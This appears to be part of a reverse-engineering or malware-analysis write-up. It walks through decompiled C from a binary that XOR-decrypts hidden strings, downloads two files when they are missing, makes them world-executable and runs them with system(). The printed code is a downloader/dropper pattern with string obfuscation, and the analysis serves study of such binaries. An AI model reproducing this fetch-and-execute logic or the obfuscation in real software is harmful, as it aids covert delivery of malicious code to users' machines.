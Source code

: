 ```C
  memcpy(enc1,&DAT_00400f74,0x3a);
  memcpy(enc2,&DAT_00400fb0,0x37);
  decrypt1((char *)&local_a8);
  decrypt1((char *)&uStack_90);
  decrypt1(enc1);
  decrypt1(enc2);
  iVar1 = access((char *)&local_a8,0);
  if (iVar1 == -1) {
    get_file(enc1,&local_a8);
    chmod((char *)&local_a8,0x1ff);
  }
  iVar1 = access((char *)&uStack_90,0);
  if (iVar1 == -1) {
    get_file(enc2,&uStack_90);
    chmod((char *)&uStack_90,0x1ff);
  }
  system((char *)&uStack_90);
  system((char *)&local_a8);
  return 0;
}

```

looking at the memcpy() and decrpypt1() calls
we see 
```C
  memcpy(enc1,&DAT_00400f74,0x3a);
  memcpy(enc2,&DAT_00400fb0,0x37);
  decrypt1((char *)&local_a8);
  decrypt1((char *)&uStack_90);
  decrypt1(enc1);
  decrypt1(enc2);
  ```

we memcpy some statically allocated variable into some stack variables and also decrypt some variables which are on the stack.

looking at the decrypt1() function.

```C

void decrypt1(char *param_1)

{
  uint uVar1;
  size_t sVar2;
  uint i;
  
  for (i = 0; sVar2 = strlen(param_1), i < sVar2; i = i + 1) {
    uVar1 = i & 0x8000001f;
    if ((int)uVar1 < 0) {
      uVar1 = (uVar1 - 1 | 0xffffffe0) + 1;
    }
    param_1[i] = param_1[i] ^ (&DAT_00400f24)[uVar1];
  }
  return;
}

```
